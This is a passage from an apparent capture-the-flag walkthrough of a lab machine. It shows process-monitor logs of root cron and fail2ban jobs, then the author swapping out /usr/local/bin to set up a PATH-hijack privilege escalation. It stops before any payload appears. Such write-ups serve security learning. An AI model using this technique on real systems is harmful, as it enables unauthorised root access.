```console
2019/10/01 21:35:40 CMD: UID=0    PID=1      | init [2]   
2019/10/01 21:35:44 CMD: UID=0    PID=3635   | /usr/bin/python3 /usr/bin/fail2ban-server -s /var/run/fail2ban/fail2ban.sock -p /var/run/fail2ban/fail2ban.pid -b 
2019/10/01 21:35:44 CMD: UID=0    PID=3637   | grep -q f2b-apache-404[ \t] 
2019/10/01 21:35:44 CMD: UID=0    PID=3636   | /bin/sh -c iptables -w -n -L INPUT | grep -q 'f2b-apache-404[ \t]' 
2019/10/01 21:35:44 CMD: UID=0    PID=3638   | /usr/bin/python3 /usr/bin/fail2ban-server -s /var/run/fail2ban/fail2ban.sock -p /var/run/fail2ban/fail2ban.pid -b 
2019/10/01 21:35:44 CMD: UID=0    PID=3639   | iptables -w -I f2b-apache-404 1 -s 10.10.14.75 -j REJECT --reject-with icmp-port-unreachable 
```
Fail2ban definitely triggers off the dirb, and interestingly iptables also triggers right after – that is what is probably is actually happening (we see my IP @ 10.10.14.75) being rejected. Awesome, so that’s the trigger that I think we get control over. I also noticed that there is a cleanup.pl script that is auto running, my theory is that this is unbanning people after they trigger the ban. This is even more evidence that it is the intended trigger:

```console
2019/10/01 21:36:01 CMD: UID=0    PID=3640   | /usr/sbin/CRON 
2019/10/01 21:36:01 CMD: UID=0    PID=3641   | /usr/sbin/CRON 
2019/10/01 21:36:01 CMD: UID=0    PID=3642   | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
2019/10/01 21:37:01 CMD: UID=0    PID=3643   | /usr/sbin/CRON 
2019/10/01 21:37:01 CMD: UID=0    PID=3644   | /usr/sbin/CRON 
2019/10/01 21:37:01 CMD: UID=0    PID=3645   | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
```
Another piece of the privesc puzzle, is that we need to make sure that we have control over the thing that we are triggering:

```console
jkr@writeup:/usr/local$ mv bin oldbin
jkr@writeup:/usr/local$ mkdir bin
jkr@writeup:/usr/local$ ls -al
total 68
drwxrwsr-x 11 root staff  4096 Oct  1 21:09 .
drwxr-xr-x 10 root root   4096 Apr 19 04:11 ..
drwxr-sr-x  2 jkr  staff  4096 Oct  1 21:09 bin
drwxrwsr-x  2 root staff  4096 Oct  1 20:42 etc
drwxrwsr-x  2 root staff  4096 Apr 19 04:11 games
drwxrwsr-x  2 root staff  4096 Apr 19 04:11 include
drwxrwsr-x  4 root staff  4096 Apr 24 13:13 lib
lrwxrwxrwx  1 root staff     9 Apr 19 04:11 man -> share/man
drwx-wsr-x  2 root staff 20480 Apr 19 04:11 oldbin
drwx-wsr-x  2 root staff 12288 Apr 19 04:11 sbin
drwxrwsr-x  7 root staff  4096 Apr 19 04:30 share
drwxrwsr-x  2 root staff  4096 Apr 19 04:11 src
```

Cool – so let’s set our trap. On machines like this, where the flag is located shouldn’t ever really be a mystery – user.txt will be in the user’s home directory or desktop and root.txt will be in the root directory or administrator’s desktop. Looking carefully at the pspy output below iptables is a good candidate to replace for our trap because it does not have a clearly defined path, check out PID 3639: 
